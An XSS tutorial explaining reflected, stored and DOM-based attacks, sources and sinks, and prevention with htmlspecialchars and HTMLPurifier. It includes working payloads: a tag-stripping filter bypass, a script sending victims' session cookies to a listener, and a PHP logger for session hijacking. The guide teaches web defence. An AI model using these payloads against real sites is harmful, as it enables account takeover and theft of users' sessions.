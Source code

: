 # Website Vulnerabilities - XSS
> July 1st, 2023
----------------------------------------------------------------

## Author's Note

All of this is strictly for educational purposes only. I do not condone illegal activity. Please use this guide solely to educate yourself on how to protect your website. 

## Introduction

By default any Javascript code will run in your browser. Some websites don't do a good job at sanitizing their user input which can lead to devastating impacts. 

When someone is able to post onto a website, use Inspect Element to see if the website processes special characters such as: `< > ;`. If it doesn't encode them or use any other forms of sanitization, there could be a chance of XSS being possible

## Reflected XSS

Payload is reflected off the web server. Carried out through a single request/response cycle

## Stored XSS

Payload is permanently stored on target server such as a DB. The victim retrieves the maliciosu script from the server when it requests the stored infromation. Also known as Persistent XSS. Typically, you would see stored XSS on a blog, comment, or reply. As long as the website saves the user input on the database and echos it back to the website, there should be stored XSS. 

To search for Stored based XSS, look for features on the website where information is stored, and hopefully, shown back to the user. 

## DOM-based XSS

XSS attack where payload is executed as a result of modifying the DOM environment in the victim's browser used by the original client side script, so that the client side code runs in an unexpected manner. The page itself (HTTP response) doesn't change, client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment.

In DOM-based XSS the malicious code is never sent to the server. The injection-point is somewhere where javascript has access. 

The typical example of how this works is with URLs.

The user is able to control the URL with the help of the hash-symbol `#`. If we add that symbol to a URL the browser will not include that characters that comes after it in the requet to the server.

`https://example.com/#this_is_not_sent_to_server`

However, the complete URL is included in DOM-objects.

```txt
document.URL
# will generate this output: https://example.com/#this_is_not_sent_to_server
```

**Source**

So in order to inject and execute a DOM-based XSS we need a injection-point (called source) and a point of execution (called sink).

In the example above `document.URL` is our source. Example of other sources are:

```txt
document.URL
document.documentURI
document.URLUnencoded (IE 5.5 or later Only)
document.baseURI
location
location.href
location.search
location.hash
location.pathname
window.name
document.referrer
```

**Sinks**

```txt
eval    
setTimeout      
setInterval     
setImmediate    
execScript      
crypto.generateCRMFRequest      
ScriptElement.src       
ScriptElement.text      
ScriptElement.textContent       
ScriptElement.innerText         
anyTag.onEventName

document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

DOM based cross site scripting occurs when JavaScript code accepts a user’s input (source) and passes that input to another function that displays the results back to the page (sink) in an unsafe manner. 

Source: A source function is any JS property or function that accepts user input from somewhere on the page. An example of a source is the location.search property because it reads input from the query string.

Sink: A sink is a potentially dangerous JavaScript function that can caused undesirable effects if attacker controlled data is passed to it. Basically, if the function returns input back to the screen as output without security checks, it’s considered a sink. An example of this would be the “innerHTML” property used earlier as that changes the contents of the HTML page to whatever is given to it.

> https://chryzsh.gitbooks.io/pentestbook/content/dom-based-xss.html
> https://yewtu.be/watch?v=-9QN_kGPkEc
> https://portswigger.net/web-security/cross-site-scripting/dom-based
> https://github.com/Sivnerof/Sources-And-Sinks-Cheatsheet
> https://medium.com/@fath3ad.22/understanding-dom-based-xss-sources-and-sinks-c17ae4bc7455

## Exploit code or POC

**Check for XSS**
```javascript
// Better versions as explained here: https://vid.puffyan.us/watch?v=KHwVjzWei1c
<script>alert(document.domain)</script>
<script>alert(domain.origin)</script>
<script>alert(window.origin)</script>
```
If you get an alert box that displays information about the above, you may have just found XSS!

**Poor sanitization technique**

If you are given access to source code, analyze any input the user is able to make. Some websites will have poor sanitzation techinques such as removing only `<script>` tags. This can be defeated very easily in multiple ways:
```javascript
<scr<script>ipt>alert(1)<scr<script>ipt>
```

The website looks for any input that says `<script>`, and when it does, it turns it into nothing. Then it processes whatever the user has left.
```javascript
// Before
<scr<script>ipt>alert(1)<scr<script>ipt>
	
// After sanitzation
<script>alert(1)<script>
	
// Pop-up window shows = Pwned!
```

**Data grabber for XSS**

Below sends a session cookie to the attacker's machine which will usually have a listener like Netcat or Python HTTP server

```javascript
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
```

The cookie.php file:
```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

Once we have someone's session cookie, we can use Firefox's developer tool to add in this cookie so we can perform an attack known as **session hijacking**.

Use the XSS README.md file for more information and obfuscation techniques

## How to prevent XSS attacks?

One way to prevent XSS from happening is to encode special characters. We do this by using htmlspecialchars() in PHP. When do we do this? Whenever we want to echo user supplied data back onto the website. Example:

```php
// Some random html junk that gets a user's username
echo(htmlspecialchars($_POST['username']));
```

In the case where you CANNOT use htmlspecialchars, at the very least, use an HTML parser/sanitizer library that tries to sanitize input. For example, when installing Quill text editor, you cannot use htmlspecialchars because it would break the formatting of the post. Therefore, I settled with the 2nd best option, which was to use a library to handle sanitization. 

The best one I can find for PHP is: https://github.com/ezyang/htmlpurifier

**Update to Quill Editor**
I just realized that Quill editor sanitizes bad input by default, but despite this, THIS IS STILL CLIENT SIDE CODE, AND THEREFORE MANIPULATABLE BY CLIENTS! Therefore, you NEED client-side sanitization AND server-side sanitization. So it's good to have htmlpurifier.

**Extra Resources**

https://xss-payloads.paracyberbellum.io/payloads.html
https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html
https://owasp.org/www-community/attacks/xss/
https://github.com/ezyang/htmlpurifier
